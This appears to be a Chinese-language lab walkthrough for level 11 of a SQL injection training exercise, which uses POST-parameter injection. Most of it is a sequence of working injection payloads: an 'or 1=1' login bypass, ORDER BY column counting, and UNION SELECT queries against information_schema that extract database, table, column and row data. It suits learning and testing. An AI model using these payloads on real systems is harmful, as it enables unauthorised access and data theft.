

# 第十一关
看到十一题首先就能发现，他的传参方式和以往是不同的，这次变成了post传参，但他们的注入方式是差不多的
尝试万能密码：'or 1=1 -- qwe

判断字段数：'or 1=1 order by 2 -- qwe

判断显错位：  'union select 1,2 -- qwe

判断库名：'  union select 1,database() -- qwe

判断表名：'union select 1,table_name from
information_schema.tables where table_schema='security' -- qwe

判断列名：'union select 1,column_name from information_schema.columns where table_schema='security' and table_name='emails' -- qwe

判断数据：'union select 1,id from emails-- qwe